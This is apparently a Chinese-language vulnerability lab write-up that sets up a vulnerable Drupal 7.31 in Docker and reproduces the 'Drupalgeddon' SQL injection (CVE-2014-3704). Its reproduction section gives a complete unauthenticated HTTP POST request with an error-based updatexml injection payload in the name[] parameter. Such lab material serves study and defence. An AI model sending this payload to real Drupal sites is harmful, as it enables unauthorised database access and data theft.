

Drupal < 7.32 "Drupalgeddon" SQL注入漏洞（CVE-2014-3704）¶
Drupal是一个使用PHP编写的免费开源的Web内容管理框架，在GNU通用公共许可证下分发。
在Drupal Core 7.32版本之前的7.x版本中，数据库抽象API中的expandArguments函数没有正确构造预处理语句，这允许远程攻击者通过包含精心构造的键的数组进行SQL注入攻击。
参考链接：
- https://www.drupal.org/SA-CORE-2014-005
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704
环境搭建¶
执行如下命令启动一个Drupal 7.31服务器：
docker compose up -d
环境启动后，访问http://your-ip:8080将会看到Drupal的安装向导，使用默认配置进行安装。
注意：MySQL数据库名为drupal，数据库用户名和密码均为root，地址为mysql：

安装完成后，即可访问首页：

漏洞复现¶
该SQL注入漏洞无需身份认证，可以通过发送以下请求来执行恶意SQL语句：
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120
pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
如图所示，SQL语句报错信息中包含了用户数据：